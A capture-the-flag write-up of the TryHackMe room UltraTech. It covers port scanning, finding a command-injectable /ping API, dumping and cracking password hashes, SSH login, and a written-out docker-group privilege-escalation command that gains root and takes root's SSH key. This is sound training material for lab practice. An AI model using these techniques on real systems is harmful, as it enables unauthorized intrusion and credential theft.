# THM - UltraTech

#### Ip: 10.10.112.141
#### Name: UltraTech
#### Rating: Medium

----------------------------------------------------------------------


```text


~_. UltraTech ._~

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.


[ Your Mission ]

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

Start this room by hitting the "deploy" button on the right!


Good luck and more importantly, have fun!
```

Note: This room doesn't have the traditional user.txt and root.txt flags. in this CTF I will still work my way up to the root level user, but won't have any flags to show along the way. 

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -p-  --min-rate 10000 10.10.112.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:15 CDT
Nmap scan report for 10.10.112.141
Host is up (0.12s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 8.17 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -sC -sV -T4 10.10.112.141 -p 21,22,8081,31331                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:17 CDT
Nmap scan report for 10.10.112.141
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

Becuase FTP doesn't have anonymous logins enabled, lets start by enumerating HTTP. 

Looking at the sites we find a traditional looking website, as well as what appears to be an API. 




I'm definitely interested in exploring this API a bit more. Lets kick off some directory fuzzing against it:



Ok interesting. Before diving into this lets explore port 31331 a bit too.

Looking at the robots.txt directory we find:



From there if we navigate to http://10.10.112.141:31331/utech_sitemap.txt we find a few more directories:



Back on the main site we find a page that lists some potential usernames. We can keep this in mind for later.


using feroxbuster to enumerate port 31331 more we find a `/js` directory:



And in there we find a api.js file. 



I'm especially interested in the `http://${getAPIURL()}/ping?ip=${window.location.hostname}` line. This seems to suggest that in `/ping` we can actually interact with the server. Lets try it:



Cool, that worked! Lets see what other commands we can run:



### Exploitation

We've got what appears to be LFI here, and the sqlite DB seems especially juicy. Lets see whats in there:



And just like that we have some hashes! Lets try to crack them using https://crackstation.net/:



Awesome, we can now use these credentials to SSH in as user r00t:

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ ssh r00t@10.10.112.141 

<SNIP>

r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ hostname
ultratech-prod
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ cd /root
-bash: cd: /root: Permission denied
```

### Privilege Escalation

Ok, I wonder if we are in a Docker container here. We should be able to escape the docker container by running:

```text
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

That worked! We are now root on this box!



And we can even grab the root user's SSH key:



Thanks for following along!

-Ryan

----------------------------------------------------------------------------


